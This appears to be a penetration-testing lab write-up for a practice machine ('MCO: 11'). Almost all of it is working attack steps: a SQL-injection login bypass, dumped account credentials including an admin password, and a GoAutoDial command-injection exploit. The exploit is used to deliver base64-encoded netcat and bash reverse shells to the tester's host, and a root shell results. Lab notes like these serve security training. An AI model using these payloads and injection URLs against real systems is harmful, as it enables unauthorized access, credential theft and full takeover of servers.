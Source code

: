 ```yaml
---
layout: post
title: "MCO: 11"
tags: pg mco
---
```


https://flumen.pg/dashboard
```
'OR '1'='1
```

```
  agent019 	  goautodial 	  ACTIVE 	  AGENTS
  Admin 	  ruAWYPLCPcK3dZ3P 	  ACTIVE 	  ADMIN
```

heh...
```
https://flumen.pg/audiostore
```
```
ERROR: sounds_list USER DOES NOT HAVE PERMISSION TO VIEW SOUNDS LIST: |admin|0| 
```

`https://www.exploit-db.com/exploits/36807`
```
echo -n "bash -i >& /dev/tcp/172.16.10.206/4444 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTAuMjA2LzQ0NDQgMD4mMQ==
```
```
|| bash -c "eval \`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMTAuMjA2LzQ0NDQgMD4mMQ== | base64 --decode\`"
```
didn't get a shell back.


tried uploading php file while adding new survey campaign at `https://flumen.pg/campaigns`
```
Error uploading C:\fakepath\wow.wav.php.<br />Please upload only audio files.<br />We strongly recommend <strong>.WAV</strong> files.
```

try the cmd injection thing again, with ping as poc: `ping -c 1 172.16.10.232`
```
echo 'ping -c 1 172.16.10.232' | base64
cGluZyAtYyAxIDE3Mi4xNi4xMC4yMzIK
```
```
index.php/go_site/cpanel/|| bash -c "eval \`echo cGluZyAtYyAxIDE3Mi4xNi4xMC4yMzIK | base64 --decode\`"
```

that didn't work, but this did, holy shit.
```
https://flumen.pg/index.php/go_site/cpanel/||%20bash%20-c%20%22ping%20-c%201%20172.16.10.232%22
```
```
sudo tcpdump ip proto \\icmp -i tap0
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), capture size 262144 bytes
19:14:59.311138 IP flumen.pg > 172.16.10.232: ICMP echo request, id 14620, seq 1, length 64
19:14:59.311178 IP 172.16.10.232 > flumen.pg: ICMP echo reply, id 14620, seq 1, length 64
```

prep rev-shell string:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.10.232 4444 >/tmp/f
```
that didn't work; the ';' broke the command injection prematurely

```
bash -i >& /dev/tcp/172.16.10.232/4444 0>&1
```

need the base64 to overcome spaces and other breaks.

confirmed 'nc' back works:
`https://flumen.pg/index.php/go_site/cpanel/||%20bash%20-c%20%22nc%20-nv%20172.16.10.232%204444%22`
```
sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.10.232] from (UNKNOWN) [172.16.10.11] 54925
```

try locally:
```
echo "nc -nv 172.16.10.232 4444" | base64 -w0
bmMgLW52IDE3Mi4xNi4xMC4yMzIgNDQ0NAo=
```

this is how it works with eval:
```
eval `echo bmMgLW52IDE3Mi4xNi4xMC4yMzIgNDQ0NAo= | base64 --decode`
(UNKNOWN) [172.16.10.232] 4444 (?) open
```

turn rev-shell string to base64:
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.10.232 4444 >/tmp/f" | base64 -w0
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTcyLjE2LjEwLjIzMiA0NDQ0ID4vdG1wL2YK
```

eval it:
```
eval `echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTcyLjE2LjEwLjIzMiA0NDQ0ID4vdG1wL2YK | base64 --decode`
rm: cannot remove '/tmp/f': No such file or directory
```
it works locally.

boom.
```
https://flumen.pg/index.php/go_site/cpanel/||%20bash%20-c%20%22eval%20%60echo%20cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTcyLjE2LjEwLjIzMiA0NDQ0ID4vdG1wL2YK%20|%20base64%20--decode%60%22
```
```
sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.16.10.232] from (UNKNOWN) [172.16.10.11] 54943
sh: no job control in this shell
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### hashed